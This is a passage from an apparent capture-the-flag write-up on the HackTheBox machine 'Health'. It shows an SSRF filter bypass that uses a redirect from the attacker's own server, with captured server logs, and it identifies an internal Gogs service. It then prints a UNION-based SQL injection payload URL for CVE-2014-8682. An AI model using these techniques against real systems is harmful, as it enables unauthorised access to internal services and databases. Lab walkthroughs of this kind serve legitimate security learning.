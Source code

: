 #### Redirect to Health

I still haven’t proven that this won’t get blocked if I try to reach
`health.htb`. I’ll update the server to redirect to `http://127.0.0.1/`, and
submit expecting to get `http://health.htb`:

On hitting test, there’s a GET, and then a POST:

    
    
    10.10.11.176 - - [06/Jan/2023 21:18:53] "POST /hook HTTP/1.1" 200 -                                                     10.10.11.176 - - [06/Jan/2023 21:20:30] "GET /redirect?r=http://127.0.0.1 HTTP/1.0" 302 -                               Got Hook!                                                                                                               {'webhookUrl': 'http://10.10.14.6/hook', 'monitoredUrl': 'http://10.10.14.6/redirect?r=http://127.0.0.1', 'health': 'up', 'body': '<!DOCTYPE html>\n<html lang="en">\n<head>\n    <meta charset="UTF-8">\n    <meta name="viewport" content="width=device-width, initial-scale=1.0">\n
    ...[snip]...
    expires=Fri, 06-Jan-2023 23:20:30 GMT; Max-Age=7200; path=/; httponly; samesite=lax', 'Vary': 'Accept-Encoding', 'Connection': 'close'}}
    10.10.11.176 - - [06/Jan/2023 21:20:30] "POST /hook HTTP/1.1" 200 -
    

That seems to be the body of `health.htb`, which means I’ve bypassed the
filter.

#### Read Port 3000

I’ll update and submit with the redirect pointing to `http://127.0.0.1:3000`,
and I get a hit. There’s a ton of HTML, but right away I can see the title
says “Gogs”:

![image-20230106162339340](https://0xdfimages.gitlab.io/img/image-20230106162339340.png)

Towards the footer, there’s a version:

![image-20230106162431868](https://0xdfimages.gitlab.io/img/image-20230106162431868.png)

### SQL Injection

#### Identify

There’s an SQL injection vulnerability in this version of Gogs,
[CVE-2014-8682](https://github.com/advisories/GHSA-g6xv-8q23-w2q3). This
[exploitDB](https://www.exploit-db.com/exploits/35238) entry has a few
payloads for this. I’ll start with this one as it seems the simplest to
understand what it is doing:

    
    
    http://www.example.com/api/v1/users/search?q='/**/and/**/false)/**/union/**/
    select/**/null,null,@@version,null,null,null,null,null,null,null,null,null,null,
    null,null,null,null,null,null,null,null,null,null,null,null,null,null/**/from
    /**/mysql.db/**/where/**/('%25'%3D'
    

There’s a UNION injection. The table it should be reading from clearly has 27
columns, which the POC is filling with mostly `null`, but putting the version
in the third column. That’s because that’s one of the columns that is
displayed back in the output. It also seems like it can’t use spaces, but is
using `/**/` instead.
